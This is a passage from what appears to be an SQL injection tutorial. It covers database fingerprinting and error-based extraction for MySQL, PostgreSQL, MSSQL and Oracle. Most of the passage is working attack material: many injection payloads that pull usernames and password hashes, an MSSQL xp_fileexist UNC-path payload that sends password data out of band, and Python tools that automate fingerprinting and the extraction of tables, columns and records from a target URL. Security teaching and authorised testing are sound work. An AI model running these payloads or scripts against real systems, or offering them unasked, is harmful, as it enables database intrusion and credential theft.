            result = self.test_param(param, self.params[param][0] + "' AND '1'='2")
            if result['length'] != baseline['length']:
                print(f"  {Fore.RED}[!] VULNERABLE: Boolean-based SQLi detected!")
            
            # Test 4: Time delay
            result = self.test_param(param, self.params[param][0] + "' AND SLEEP(5)--")
            if result['time'] >= 5:
                print(f"  {Fore.RED}[!] VULNERABLE: Time-based SQLi detected! ({result['time']:.2f}s)")
            
            # Test 5: UNION
            result = self.test_param(param, self.params[param][0] + "' UNION SELECT NULL--")
            if 'mysql' in result['text'].lower() or result['status'] == 200:
                print(f"  {Fore.GREEN}[+] UNION query executed")
            
            print()

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Manual SQLi Testing Tool')
    parser.add_argument('-u', '--url', required=True, help='Target URL')
    args = parser.parse_args()
    
    tester = SQLiTester(args.url)
    tester.run_tests()
```

### Manual Testing Checklist

```markdown
## Pre-Testing
- [ ] Identify all input points
- [ ] Map application functionality
- [ ] Review source code (if available)
- [ ] Check for WAF/security controls
- [ ] Set up Burp Suite proxy
- [ ] Prepare payload lists

## Testing Each Parameter

### Phase 1: Basic Detection
- [ ] Test single quote (')
- [ ] Test double quote (")
- [ ] Test backtick (`)
- [ ] Test parentheses ('))
- [ ] Test comment syntax (--, #, /**/)
- [ ] Analyze error messages
- [ ] Compare response lengths

### Phase 2: Boolean Testing
- [ ] Test TRUE condition (AND 1=1)
- [ ] Test FALSE condition (AND 1=2)
- [ ] Compare responses
- [ ] Test with OR logic
- [ ] Test negative values

### Phase 3: Time-Based Testing
- [ ] MySQL SLEEP(5)
- [ ] MSSQL WAITFOR DELAY
- [ ] PostgreSQL pg_sleep(5)
- [ ] Oracle DBMS_LOCK.SLEEP(5)
- [ ] Measure response times accurately

### Phase 4: UNION Testing
- [ ] Determine column count (ORDER BY)
- [ ] Test UNION SELECT NULL
- [ ] Identify injectable columns
- [ ] Extract database version
- [ ] Extract table names

### Phase 5: Advanced Testing
- [ ] Test stacked queries
- [ ] Test out-of-band techniques
- [ ] Test second-order injection
- [ ] Test stored procedures
- [ ] Test JSON/XML contexts

## Post-Testing
- [ ] Document all findings
- [ ] Verify exploitability
- [ ] Assess impact
- [ ] Prepare PoC
- [ ] Write report
```

---

## 🗺️ Chapter 6: Database Fingerprinting

### Why Fingerprinting Matters

```
Different databases = Different exploitation techniques
                    ↓
              Know your target!
```

**Benefits:**
- 🎯 Use database-specific payloads
- 🚀 Faster exploitation
- 💡 Know what's possible (file read, RCE, etc.)
- 📊 Better reporting

### Fingerprinting Methodology

#### Method 1: Error Message Analysis

**Most accurate, fastest method when errors are exposed**

```python
DATABASE_SIGNATURES = {
    'MySQL/MariaDB': [
        'You have an error in your SQL syntax',
        'check the manual that corresponds to your MySQL server version',
        'MySQLSyntaxErrorException',
        'com.mysql.jdbc.exceptions',
    ],
    'PostgreSQL': [
        'PostgreSQL query failed',
        'pg_query(): Query failed',
        'org.postgresql.util.PSQLException',
        'ERROR: syntax error at or near',
    ],
    'Microsoft SQL Server': [
        'Microsoft SQL Native Client error',
        'ODBC SQL Server Driver',
        '[SQL Server]',
        'Unclosed quotation mark after the character string',
    ],
    'Oracle': [
        'ORA-[0-9]{5}',
        'Oracle error',
        'Oracle.*Driver',
        'Warning.*oci_',
    ],
    'SQLite': [
        'SQLite/JDBCDriver',
        'SQLite.Exception',
        'System.Data.SQLite.SQLiteException',
    ],
}
```

**Detection script:**

```python
import re

def fingerprint_from_error(response_text):
    """Identify database from error messages"""
    
    for db, signatures in DATABASE_SIGNATURES.items():
        for signature in signatures:
            if re.search(signature, response_text, re.IGNORECASE):
                print(f"🎯 Database: {db}")
                print(f"   Signature: {signature}")
                return db
    
    return "Unknown"

# Example
error = "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version"
db = fingerprint_from_error(error)
# Output: 🎯 Database: MySQL/MariaDB
```

#### Method 2: Version-Specific Functions

**When errors are suppressed but queries execute**

```sql
# MySQL/MariaDB
' AND @@version LIKE '%MySQL%'--
' AND version() LIKE '%MariaDB%'--
' AND CONNECTION_ID()=CONNECTION_ID()--

# PostgreSQL
' AND version() LIKE '%PostgreSQL%'--
' AND pg_catalog.version() IS NOT NULL--

# MSSQL
' AND @@version LIKE '%Microsoft%'--
' AND SERVERPROPERTY('ProductVersion') IS NOT NULL--

# Oracle
' AND (SELECT banner FROM v$version WHERE rownum=1) IS NOT NULL--
' AND SYS.DATABASE_NAME IS NOT NULL--

# SQLite
' AND sqlite_version() IS NOT NULL--
```

**Testing script:**

```python
def fingerprint_from_functions(url, param):
    """Fingerprint database using version functions"""
    
    tests = {
        'MySQL': [
            f"{param}' AND @@version LIKE '%'--",
            f"{param}' AND CONNECTION_ID()>0--",
        ],
        'PostgreSQL': [
            f"{param}' AND pg_sleep(0)=0--",
            f"{param}' AND version()::text LIKE '%'--",
        ],
        'MSSQL': [
            f"{param}' AND @@SERVERNAME=@@SERVERNAME--",
            f"{param}' AND SUSER_NAME()=SUSER_NAME()--",
        ],
        'Oracle': [
            f"{param}' AND LENGTHB('a')=1--",
            f"{param}' AND SYS.DATABASE_NAME IS NOT NULL--",
        ],
        'SQLite': [
            f"{param}' AND sqlite_version()='3.'||sqlite_version()--",
        ]
    }
    
    baseline = requests.get(f"{url}?id={param}").text
    
    for db, payloads in tests.items():
        for payload in payloads:
            response = requests.get(f"{url}?id={payload}").text
            if len(response) == len(baseline):  # Same response = function worked
                print(f"🎯 Likely: {db}")
                return db
```

#### Method 3: String Concatenation

**Different databases use different concatenation operators**

```sql
# MySQL
' AND 'a'='a'--           ✓ Works
' AND CONCAT('a','b')='ab'--  ✓ Works

# PostgreSQL  
' AND 'a'||'b'='ab'--     ✓ Works
' AND 'a'+'b'='ab'--      ✗ Doesn't work

# MSSQL
' AND 'a'+'b'='ab'--      ✓ Works
' AND 'a'||'b'='ab'--     ✗ Doesn't work

# Oracle
' AND 'a'||'b'='ab'--     ✓ Works
' AND CONCAT('a','b')='ab'--  ✓ Works

# SQLite
' AND 'a'||'b'='ab'--     ✓ Works
```

**Testing approach:**

```sql
Payload 1: ?id=5' AND 'a'||'b'='ab'--
  → Works: PostgreSQL, Oracle, or SQLite
  → Doesn't work: MySQL or MSSQL

Payload 2: ?id=5' AND 'a'+'b'='ab'--
  → Works: MSSQL
  → Doesn't work: Others

Payload 3: ?id=5' AND CONCAT('a','b')='ab'--
  → Works: MySQL, Oracle
  → Doesn't work: Others

Combination analysis:
  Payload 1 ✓ + Payload 2 ✗ + Payload 3 ✗ → PostgreSQL
  Payload 1 ✓ + Payload 2 ✗ + Payload 3 ✓ → Oracle or MySQL
  Payload 1 ✗ + Payload 2 ✓ + Payload 3 ✗ → MSSQL
```

#### Method 4: Comment Syntax

**Different comment styles**

```sql
# MySQL supports all:
-- comment
# comment
/* comment */
/*! MySQL-specific code */

# MSSQL:
-- comment
/* comment */

# PostgreSQL:
-- comment
/* comment */

# Oracle:
-- comment
/* comment */

# SQLite:
-- comment
/* comment */
```

**MySQL-specific test:**

```sql
' AND 1=1#--
' AND /*!50000 1=1*/--

If these work but others don't → MySQL
```

#### Method 5: Boolean Logic Differences

**True/False keyword support:**

```sql
# MySQL
' AND TRUE--              ✓ Works
' AND 1=1--               ✓ Works

# PostgreSQL  
' AND TRUE--              ✓ Works
' AND TRUE::boolean--     ✓ Works (PostgreSQL-specific)

# MSSQL
' AND 1=1--               ✓ Works
' AND TRUE--              ✗ Doesn't work

# Oracle
' AND 1=1--               ✓ Works
' AND TRUE--              ✗ Doesn't work
```

### Comprehensive Fingerprinting Payloads

#### MySQL/MariaDB

```sql
# Version Detection
' UNION SELECT @@version,NULL,NULL--
' UNION SELECT version(),NULL,NULL--
' AND extractvalue(1,concat(0x7e,@@version))--

# Identify MariaDB vs MySQL
' UNION SELECT @@version LIKE '%MariaDB%',NULL,NULL--

# System Information
' UNION SELECT @@hostname,@@datadir,@@version_compile_os--
' UNION SELECT user(),database(),@@version--

# Verify MySQL-specific functions
' AND CONNECTION_ID()>0--
' AND ROW_COUNT()>=0--
' AND FOUND_ROWS()>=0--
```

**Sample Output:**

```
Version: 5.7.33-0ubuntu0.16.04.1
Hostname: web-server-01
Data Dir: /var/lib/mysql/
OS: Linux
User: webapp@localhost
Database: production_db
```

#### PostgreSQL

```sql
# Version Detection
' UNION SELECT version(),NULL,NULL--
' AND CAST(version() AS text) LIKE '%PostgreSQL%'--

# Database Information
' UNION SELECT current_database(),current_user,NULL--
' UNION SELECT inet_server_addr()::text,inet_server_port()::text,NULL--

# Check Superuser
' UNION SELECT usesuper::text FROM pg_user WHERE usename=current_user--

# PostgreSQL-specific functions
' AND pg_sleep(0)=0--
' AND pg_backend_pid()>0--
' AND current_setting('server_version') IS NOT NULL--
```

**Sample Output:**

```
Version: PostgreSQL 12.5 on x86_64-pc-linux-gnu
Database: appdb
User: postgres
Superuser: true
Server IP: 192.168.1.100
Port: 5432
```

#### Microsoft SQL Server

```sql
# Version Detection
' UNION SELECT @@version,NULL,NULL--
' UNION SELECT SERVERPROPERTY('ProductVersion'),SERVERPROPERTY('Edition'),NULL--

# Server Information
' UNION SELECT @@SERVERNAME,@@SERVICENAME,DB_NAME()--
' UNION SELECT SYSTEM_USER,USER_NAME(),IS_SRVROLEMEMBER('sysadmin')--

# MSSQL-specific functions
' AND SUSER_NAME()=SUSER_NAME()--
' AND @@IDENTITY=@@IDENTITY--
' AND OBJECT_ID('sys.databases') IS NOT NULL--
```

**Sample Output:**

```
Version: Microsoft SQL Server 2019 (RTM) - 15.0.2000.5
Edition: Developer Edition (64-bit)
Server Name: SQLSERVER01
Service: MSSQLSERVER
Database: master
User: sa
Sysadmin: 1 (Yes)
```

#### Oracle

```sql
# Version Detection
' UNION SELECT banner FROM v$version WHERE rownum=1--
' UNION SELECT version FROM v$instance--

# Database Information  
' UNION SELECT instance_name,host_name,version FROM v$instance--
' UNION SELECT user,SYS.DATABASE_NAME,NULL FROM dual--

# Oracle-specific functions
' AND LENGTHB('a')=1--
' AND SYS.LOGIN_USER IS NOT NULL--
' AND (SELECT COUNT(*) FROM v$version)>0--
```

**Sample Output:**

```
Banner: Oracle Database 19c Enterprise Edition Release 19.0.0.0.0
Instance: ORCL
Hostname: oracle-server.company.com
User: SCOTT
Database: ORCL
```

### Visual Fingerprinting Flowchart

```
Start Testing
     |
     v
Try single quote (')
     |
     ├─> Error message?
     |   └─> YES → Analyze error → Identify database
     |
     └─> NO (Blind SQLi)
         |
         v
Test version functions
     |
     ├─> MySQL: @@version works?
     |   └─> YES → MySQL/MariaDB
     |
     ├─> MSSQL: @@SERVERNAME works?
     |   └─> YES → Microsoft SQL Server
     |
     ├─> PostgreSQL: pg_sleep(0) works?
     |   └─> YES → PostgreSQL
     |
     └─> Oracle: LENGTHB('a')=1 works?
         └─> YES → Oracle
```

### Fingerprinting Quick Reference

| Test | MySQL | PostgreSQL | MSSQL | Oracle | SQLite |
|------|-------|------------|-------|--------|--------|
| `'AND TRUE--` | ✅ | ✅ | ❌ | ❌ | ✅ |
| `'AND 'a'+'b'='ab'--` | ❌ | ❌ | ✅ | ❌ | ❌ |
| `'AND 'a'\|\|'b'='ab'--` | ❌ | ✅ | ❌ | ✅ | ✅ |
| `'AND SLEEP(0)--` | ✅ | ❌ | ❌ | ❌ | ❌ |
| `'AND pg_sleep(0)--` | ❌ | ✅ | ❌ | ❌ | ❌ |
| `'#` Comment | ✅ | ❌ | ❌ | ❌ | ❌ |
| `'@@version` | ✅ | ❌ | ✅ | ❌ | ❌ |
| `'version()` | ✅ | ✅ | ❌ | ❌ | ❌ |

### Automated Fingerprinting Script

```python
#!/usr/bin/env python3
"""
Database Fingerprinting Tool
Identifies the database management system behind a SQLi vulnerability
"""

import requests
import time
from colorama import Fore, Style, init

init(autoreset=True)

class DatabaseFingerprinter:
    def __init__(self, url):
        self.url = url
        self.db_type = None
        self.db_version = None
        
    def test_payload(self, payload, expected_delay=None):
        """Test a payload and return response characteristics"""
        try:
            start = time.time()
            resp = requests.get(self.url + payload, timeout=15)
            elapsed = time.time() - start
            
            return {
                'status': resp.status_code,
                'length': len(resp.text),
                'time': elapsed,
                'text': resp.text,
                'success': resp.status_code == 200
            }
        except requests.exceptions.Timeout:
            return {'timeout': True, 'time': 15}
        except Exception as e:
            return {'error': str(e)}
    
    def check_mysql(self):
        """Test for MySQL/MariaDB"""
        print(f"{Fore.CYAN}[*] Testing for MySQL/MariaDB...")
        
        tests = [
            ("' AND SLEEP(2)--", 2),  # Time-based
            ("' AND @@version LIKE '%'--", None),  # Function
            ("' AND CONNECTION_ID()>0--", None),  # MySQL-specific
        ]
        
        for payload, delay in tests:
            result = self.test_payload(payload, delay)
            
            if delay and result.get('time', 0) >= delay:
                print(f"{Fore.GREEN}[+] MySQL/MariaDB confirmed (time-based)")
                self.db_type = 'MySQL/MariaDB'
                return True
            elif result.get('success') and 'mysql' in result.get('text', '').lower():
                print(f"{Fore.GREEN}[+] MySQL/MariaDB confirmed (error-based)")
                self.db_type = 'MySQL/MariaDB'
                return True
        
        return False
    
    def check_postgresql(self):
        """Test for PostgreSQL"""
        print(f"{Fore.CYAN}[*] Testing for PostgreSQL...")
        
        tests = [
            ("' AND pg_sleep(2)--", 2),
            ("' AND version() LIKE '%PostgreSQL%'--", None),
        ]
        
        for payload, delay in tests:
            result = self.test_payload(payload, delay)
            
            if delay and result.get('time', 0) >= delay:
                print(f"{Fore.GREEN}[+] PostgreSQL confirmed (time-based)")
                self.db_type = 'PostgreSQL'
                return True
            elif 'postgresql' in result.get('text', '').lower():
                print(f"{Fore.GREEN}[+] PostgreSQL confirmed (error-based)")
                self.db_type = 'PostgreSQL'
                return True
        
        return False
    
    def check_mssql(self):
        """Test for Microsoft SQL Server"""
        print(f"{Fore.CYAN}[*] Testing for MSSQL...")
        
        tests = [
            ("'; WAITFOR DELAY '00:00:02'--", 2),
            ("' AND @@SERVERNAME=@@SERVERNAME--", None),
        ]
        
        for payload, delay in tests:
            result = self.test_payload(payload, delay)
            
            if delay and result.get('time', 0) >= delay:
                print(f"{Fore.GREEN}[+] MSSQL confirmed (time-based)")
                self.db_type = 'Microsoft SQL Server'
                return True
            elif 'microsoft' in result.get('text', '').lower() or 'sql server' in result.get('text', '').lower():
                print(f"{Fore.GREEN}[+] MSSQL confirmed (error-based)")
                self.db_type = 'Microsoft SQL Server'
                return True
        
        return False
    
    def check_oracle(self):
        """Test for Oracle"""
        print(f"{Fore.CYAN}[*] Testing for Oracle...")
        
        tests = [
            ("' AND DBMS_LOCK.SLEEP(2)--", 2),
            ("' AND LENGTHB('a')=1--", None),
        ]
        
        for payload, delay in tests:
            result = self.test_payload(payload, delay)
            
            if delay and result.get('time', 0) >= delay:
                print(f"{Fore.GREEN}[+] Oracle confirmed (time-based)")
                self.db_type = 'Oracle'
                return True
            elif 'oracle' in result.get('text', '').lower() or 'ORA-' in result.get('text', ''):
                print(f"{Fore.GREEN}[+] Oracle confirmed (error-based)")
                self.db_type = 'Oracle'
                return True
        
        return False
    
    def get_version(self):
        """Extract database version"""
        if not self.db_type:
            return None
        
        print(f"{Fore.CYAN}[*] Extracting version information...")
        
        payloads = {
            'MySQL/MariaDB': "' UNION SELECT @@version,NULL,NULL--",
            'PostgreSQL': "' UNION SELECT version(),NULL,NULL--",
            'Microsoft SQL Server': "' UNION SELECT @@version,NULL,NULL--",
            'Oracle': "' UNION SELECT banner FROM v$version WHERE rownum=1--",
        }
        
        payload = payloads.get(self.db_type)
        if payload:
            result = self.test_payload(payload)
            # Parse version from response (simplified)
            # In real scenario, you'd parse the HTML response
            print(f"{Fore.GREEN}[+] Version extraction payload sent")
    
    def fingerprint(self):
        """Run complete fingerprinting"""
        print(f"{Fore.YELLOW}{'='*60}")
        print(f"{Fore.YELLOW}Database Fingerprinting Tool")
        print(f"{Fore.YELLOW}{'='*60}\n")
        print(f"{Fore.CYAN}Target: {self.url}\n")
        
        # Test each database type
        if self.check_mysql():
            pass
        elif self.check_postgresql():
            pass
        elif self.check_mssql():
            pass
        elif self.check_oracle():
            pass
        else:
            print(f"{Fore.RED}[-] Could not identify database type")
            return
        
        # Get version
        self.get_version()
        
        # Print summary
        print(f"\n{Fore.YELLOW}{'='*60}")
        print(f"{Fore.GREEN}[+] Database Type: {self.db_type}")
        print(f"{Fore.YELLOW}{'='*60}\n")
        
        # Suggest next steps
        print(f"{Fore.CYAN}Suggested Next Steps:")
        print(f"  1. Extract database name")
        print(f"  2. List tables")
        print(f"  3. Extract sensitive data")
        print(f"  4. Check for additional privileges")

if __name__ == "__main__":
    import argparse
    
    parser = argparse.ArgumentParser(description='Database Fingerprinting Tool')
    parser.add_argument('-u', '--url', required=True, help='Target URL with injectable parameter')
    args = parser.parse_args()
    
    fingerprinter = DatabaseFingerprinter(args.url)
    fingerprinter.fingerprint()
```

## ⚔️ Chapter 7: Error-Based SQL Injection

### Understanding Error-Based SQLi

**What is Error-Based SQLi?**
- Exploits verbose database error messages
- Extracts data through intentional errors
- Most powerful when errors are displayed
- Can extract entire database in single request

**Why Error-Based Works:**
```
Normal Error: "Invalid input"
SQL Error: "Duplicate entry 'admin:5f4dcc3b5aa765d61d8327deb882cf99' for key 'PRIMARY'"
              ↑
         Leaked password hash!
```

### MySQL/MariaDB Error-Based Exploitation

#### Technique 1: ExtractValue Function

**How it works:**
```sql
extractvalue(xml_document, xpath_expression)
```
- Takes XML and XPath expression
- If XPath is invalid, returns error with our data
- Limited to 32 characters per extraction

**Payloads:**

```sql
# Extract database version
' AND extractvalue(1,concat(0x7e,version()))--
' AND extractvalue(1,concat(0x7e,(SELECT @@version)))--

# Extract database name
' AND extractvalue(1,concat(0x7e,database()))--

# Extract current user
' AND extractvalue(1,concat(0x7e,user()))--

# Extract table names
' AND extractvalue(1,concat(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)))--

# Extract column names
' AND extractvalue(1,concat(0x7e,(SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1)))--

# Extract data
' AND extractvalue(1,concat(0x7e,(SELECT concat(username,0x3a,password) FROM users LIMIT 0,1)))--

# Extract multiple rows
' AND extractvalue(1,concat(0x7e,(SELECT concat(username,0x3a,password) FROM users LIMIT 1,1)))--
' AND extractvalue(1,concat(0x7e,(SELECT concat(username,0x3a,password) FROM users LIMIT 2,1)))--
```

**Real-World Example:**

```sql
# Target URL
http://shop.com/product.php?id=5

# Injection
http://shop.com/product.php?id=5' AND extractvalue(1,concat(0x7e,(SELECT concat(username,0x3a,password) FROM users LIMIT 0,1)))--

# Error Message Displayed
XPATH syntax error: '~admin:5f4dcc3b5aa765d61d8327deb882cf99'

# Result: Extracted admin credentials!
Username: admin
Password Hash: 5f4dcc3b5aa765d61d8327deb882cf99
```

**Bypassing 32-Character Limit:**

```sql
# Split extraction using SUBSTRING
' AND extractvalue(1,concat(0x7e,SUBSTRING((SELECT password FROM users LIMIT 0,1),1,32)))--
' AND extractvalue(1,concat(0x7e,SUBSTRING((SELECT password FROM users LIMIT 0,1),33,32)))--

# Or use MID function
' AND extractvalue(1,concat(0x7e,MID((SELECT GROUP_CONCAT(username) FROM users),1,32)))--
' AND extractvalue(1,concat(0x7e,MID((SELECT GROUP_CONCAT(username) FROM users),33,32)))--
```

#### Technique 2: UpdateXML Function

**Similar to ExtractValue but with different syntax:**

```sql
updatexml(xml_document, xpath_expression, new_value)
```

**Payloads:**

```sql
# Extract version
' AND updatexml(null,concat(0x7e,version()),null)--
' AND updatexml(null,concat(0x0a,version()),null)--

# Extract database
' AND updatexml(null,concat(0x7e,database()),null)--

# Extract tables
' AND updatexml(null,concat(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)),null)--

# Extract data
' AND updatexml(null,concat(0x7e,(SELECT concat_ws(0x3a,username,password) FROM users LIMIT 0,1)),null)--

# Extract all usernames
' AND updatexml(null,concat(0x7e,(SELECT GROUP_CONCAT(username) FROM users)),null)--
```

**Combining Multiple Columns:**

```sql
# Using concat_ws (concatenate with separator)
' AND updatexml(null,concat(0x7e,(SELECT concat_ws(0x3a,id,username,email,password) FROM users LIMIT 0,1)),null)--

# Result: ~1:admin:admin@site.com:hash123
```

#### Technique 3: Name_Const Function

**Exploits MySQL's name_const function:**

```sql
# Extract version
' AND (SELECT * FROM (SELECT NAME_CONST(version(),1),NAME_CONST(version(),1))a)--

# Extract database
' AND (SELECT * FROM (SELECT NAME_CONST(database(),1),NAME_CONST(database(),1))a)--

# Extract data
' AND (SELECT * FROM (SELECT NAME_CONST((SELECT username FROM users LIMIT 0,1),1),NAME_CONST((SELECT password FROM users LIMIT 0,1),1))a)--
```

#### Technique 4: Double Query Injection

**Advanced MySQL error-based technique:**

```sql
# Extract database
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT database()),0x3a,FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)y)--

# Extract version
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT @@version),0x3a,FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)y)--

# Extract data
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT concat(username,0x3a,password) FROM users LIMIT 0,1),0x3a,FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)y)--
```

**How it works:**
```
1. FLOOR(RAND(0)*2) creates duplicate keys
2. GROUP BY causes a "Duplicate entry" error
3. Error message contains our CONCAT data
4. Example error: "Duplicate entry 'admin:hash:1' for key 'group_key'"
```

### PostgreSQL Error-Based Exploitation

#### Technique 1: Type Conversion Errors

**Force type mismatch to generate errors:**

```sql
# Extract version
' AND 1=CAST(version() AS int)--

# Extract database
' AND 1=CAST(current_database() AS int)--

# Extract current user
' AND 1=CAST(current_user AS int)--

# Extract table names
' AND 1=CAST((SELECT table_name FROM information_schema.tables LIMIT 0,1) AS int)--

# Extract data
' AND 1=CAST((SELECT concat(username,':',password) FROM users LIMIT 0,1) AS int)--
```

**Error Output:**

```
ERROR: invalid input syntax for integer: "PostgreSQL 12.5 on x86_64-pc-linux-gnu"
                                          ↑
                                    Extracted data!
```

#### Technique 2: Division by Zero

```sql
# Extract version
' AND 1/(SELECT CASE WHEN (version() LIKE '%PostgreSQL%') THEN 0 ELSE 1 END)--

# Extract data
' AND 1/(SELECT CASE WHEN (SELECT username FROM users LIMIT 0,1)='admin' THEN 0 ELSE 1 END)--
```

#### Technique 3: XML Functions

```sql
# Using xmlparse
' AND 1=xmlparse(content (SELECT version())::text)--

# Using query_to_xml
' AND 1=(SELECT query_to_xml('SELECT * FROM users',true,false,''))::text::int--
```

### Microsoft SQL Server Error-Based Exploitation

#### Technique 1: CONVERT Function

**Force type conversion errors:**

```sql
# Extract version
' AND 1=CONVERT(int,@@version)--

# Extract database
' AND 1=CONVERT(int,DB_NAME())--

# Extract user
' AND 1=CONVERT(int,SYSTEM_USER)--

# Extract table names
' AND 1=CONVERT(int,(SELECT TOP 1 name FROM sys.tables))--

# Extract data
' AND 1=CONVERT(int,(SELECT TOP 1 username FROM users))--
' AND 1=CONVERT(int,(SELECT TOP 1 username+':'+password FROM users))--
```

**Error Example:**

```
Conversion failed when converting the nvarchar value 'Microsoft SQL Server 2019' to data type int.
                                                        ↑
                                                  Extracted version!
```

#### Technique 2: XML Path Errors

```sql
# Extract data using FOR XML PATH
' AND 1=(SELECT TOP 1 username FROM users FOR XML PATH(''))--

# Multiple columns
' AND 1=(SELECT TOP 1 username+':'+password FROM users FOR XML PATH(''))--
```

#### Technique 3: File Existence Check

```sql
# Using xp_fileexist
'; DECLARE @result int; EXEC xp_fileexist 'C:\', @result OUTPUT; SELECT @result--

# Extract data via file path
'; EXEC master..xp_fileexist CONCAT('\\', (SELECT TOP 1 password FROM users), '.txt')--
```

### Oracle Error-Based Exploitation

#### Technique 1: CTXSYS.DRITHSX.SN

**Oracle-specific error function:**

```sql
# Extract user
' AND 1=CTXSYS.DRITHSX.SN(1,(SELECT user FROM dual))--

# Extract version
' AND 1=CTXSYS.DRITHSX.SN(1,(SELECT banner FROM v$version WHERE rownum=1))--

# Extract table names
' AND 1=CTXSYS.DRITHSX.SN(1,(SELECT table_name FROM all_tables WHERE rownum=1))--

# Extract data
' AND 1=CTXSYS.DRITHSX.SN(1,(SELECT username||':'||password FROM users WHERE rownum=1))--
```

#### Technique 2: UTL_INADDR.GET_HOST_NAME

```sql
# Extract database info
' AND 1=UTL_INADDR.GET_HOST_NAME((SELECT user FROM dual))--
' AND 1=UTL_INADDR.GET_HOST_NAME((SELECT banner FROM v$version WHERE rownum=1))--

# Extract data
' AND 1=UTL_INADDR.GET_HOST_NAME((SELECT username FROM users WHERE rownum=1))--
```

#### Technique 3: DBMS_XDB_VERSION.CHECKIN

```sql
' AND (SELECT DBMS_XDB_VERSION.CHECKIN((SELECT user FROM dual)) FROM dual) IS NULL--
' AND (SELECT DBMS_XDB_VERSION.CHECKIN((SELECT banner FROM v$version WHERE rownum=1)) FROM dual) IS NULL--
```

### Complete Error-Based Extraction Script

```python
#!/usr/bin/env python3
"""
Error-Based SQL Injection Data Extractor
Supports: MySQL, PostgreSQL, MSSQL, Oracle
"""

import requests
import re
from urllib.parse import quote
from colorama import Fore, init

init(autoreset=True)

class ErrorBasedExtractor:
    def __init__(self, url, db_type):
        self.url = url
        self.db_type = db_type
        self.data_pattern = None
        
    def set_patterns(self):
        """Set regex patterns for each database type"""
        patterns = {
            'MySQL': r"XPATH syntax error: '~(.+?)'",
            'PostgreSQL': r'invalid input syntax for .*?: "(.+?)"',
            'MSSQL': r"converting .* value '(.+?)' to",
            'Oracle': r'ORA-\d+: (.+?)$'
        }
        self.data_pattern = patterns.get(self.db_type)
    
    def build_payload(self, query):
        """Build error-based payload for specific database"""
        payloads = {
            'MySQL': f"' AND extractvalue(1,concat(0x7e,({query})))--",
            'PostgreSQL': f"' AND 1=CAST(({query}) AS int)--",
            'MSSQL': f"' AND 1=CONVERT(int,({query}))--",
            'Oracle': f"' AND 1=CTXSYS.DRITHSX.SN(1,({query}))--"
        }
        return payloads.get(self.db_type, '')
    
    def extract_from_error(self, response_text):
        """Extract data from error message"""
        if not self.data_pattern:
            return None
        
        match = re.search(self.data_pattern, response_text, re.IGNORECASE)
        if match:
            return match.group(1)
        return None
    
    def extract_data(self, sql_query):
        """Extract data using error-based technique"""
        payload = self.build_payload(sql_query)
        encoded_payload = quote(payload)
        
        try:
            response = requests.get(f"{self.url}{encoded_payload}", timeout=10)
            data = self.extract_from_error(response.text)
            
            if data:
                print(f"{Fore.GREEN}[+] Extracted: {data}")
                return data
            else:
                print(f"{Fore.RED}[-] No data found in error")
                return None
                
        except Exception as e:
            print(f"{Fore.RED}[!] Error: {str(e)}")
            return None
    
    def extract_database(self):
        """Extract database name"""
        print(f"{Fore.CYAN}[*] Extracting database name...")
        
        queries = {
            'MySQL': 'SELECT database()',
            'PostgreSQL': 'SELECT current_database()',
            'MSSQL': 'SELECT DB_NAME()',
            'Oracle': 'SELECT SYS.DATABASE_NAME FROM dual'
        }
        
        query = queries.get(self.db_type)
        return self.extract_data(query)
    
    def extract_tables(self, limit=10):
        """Extract table names"""
        print(f"{Fore.CYAN}[*] Extracting table names...")
        
        tables = []
        
        for i in range(limit):
            if self.db_type == 'MySQL':
                query = f"SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT {i},1"
            elif self.db_type == 'PostgreSQL':
                query = f"SELECT table_name FROM information_schema.tables WHERE table_schema='public' OFFSET {i} LIMIT 1"
            elif self.db_type == 'MSSQL':
                query = f"SELECT name FROM sys.tables ORDER BY name OFFSET {i} ROWS FETCH NEXT 1 ROWS ONLY"
            elif self.db_type == 'Oracle':
                query = f"SELECT table_name FROM (SELECT table_name, ROWNUM rn FROM all_tables WHERE owner=user) WHERE rn={i+1}"
            else:
                break
            
            table = self.extract_data(query)
            if table:
                tables.append(table)
            else:
                break
        
        return tables
    
    def extract_columns(self, table_name):
        """Extract column names from a table"""
        print(f"{Fore.CYAN}[*] Extracting columns from {table_name}...")
        
        columns = []
        
        for i in range(50):  # Assume max 50 columns
            if self.db_type == 'MySQL':
                query = f"SELECT column_name FROM information_schema.columns WHERE table_name='{table_name}' LIMIT {i},1"
            elif self.db_type == 'PostgreSQL':
                query = f"SELECT column_name FROM information_schema.columns WHERE table_name='{table_name}' OFFSET {i} LIMIT 1"
            elif self.db_type == 'MSSQL':
                query = f"SELECT name FROM sys.columns WHERE object_id=OBJECT_ID('{table_name}') ORDER BY column_id OFFSET {i} ROWS FETCH NEXT 1 ROWS ONLY"
            elif self.db_type == 'Oracle':
                query = f"SELECT column_name FROM (SELECT column_name, ROWNUM rn FROM all_tab_columns WHERE table_name='{table_name.upper()}') WHERE rn={i+1}"
            else:
                break
            
            column = self.extract_data(query)
            if column:
                columns.append(column)
            else:
                break
        
        return columns
    
    def extract_records(self, table_name, columns, limit=10):
        """Extract records from a table"""
        print(f"{Fore.CYAN}[*] Extracting records from {table_name}...")
        
        records = []
        
        # Build concatenated column list
        if self.db_type == 'MySQL':
            concat_cols = f"concat_ws(':',{','.join(columns)})"
        elif self.db_type == 'PostgreSQL':
            concat_cols = f"concat({','.join([f'{col}' for col in columns])})"
        elif self.db_type == 'MSSQL':
            concat_cols = '+'.join([f"ISNULL({col},'')" for col in columns])
        elif self.db_type == 'Oracle':
            concat_cols = '||'.join([f"NVL({col},'')" for col in columns])
        else:
            return records
        
        for i in range(limit):
            if self.db_type == 'MySQL':
                query = f"SELECT {concat_cols} FROM {table_name} LIMIT {i},1"
            elif self.db_type == 'PostgreSQL':
                query = f"SELECT {concat_cols} FROM {table_name} OFFSET {i} LIMIT 1"
            elif self.db_type == 'MSSQL':
